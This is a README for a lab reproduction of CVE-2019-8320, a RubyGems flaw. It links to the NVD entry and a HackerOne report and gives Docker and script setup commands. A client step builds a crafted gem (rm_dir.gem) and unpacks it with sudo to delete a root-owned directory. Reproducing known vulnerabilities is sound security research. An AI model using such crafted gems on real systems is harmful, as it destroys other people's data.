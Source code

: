 # CVE-2019-8320

## About
<https://nvd.nist.gov/vuln/detail/CVE-2019-8320>


## PoC
<https://hackerone.com/reports/317321>


## Environment used

* Ubuntu 18.04.4 LTS


## Reproduction

* Server
    - Docker:
        ```shell script
        bash Docker\ version/start.sh
        bash Docker\ version/stop.sh  
        ```
      
    - Script:
        ```shell script
        cd Script\ version && bash installation.sh
        ```

* Client:
    - Docker:
        ```shell script
        ssh <Server IP> -l guest -p 8022
        ruby builder.rb && sudo gem unpack rm_dir.gem
        ```
    
    - Script:
        * Run `sudo mkdir -p /tmp/dir`
        * Then
            ```shell script
            ssh <Server IP> -l guest -p 22
            bash run.sh 
            ```

The result would be the deletion of */tmp/dir* own by root.
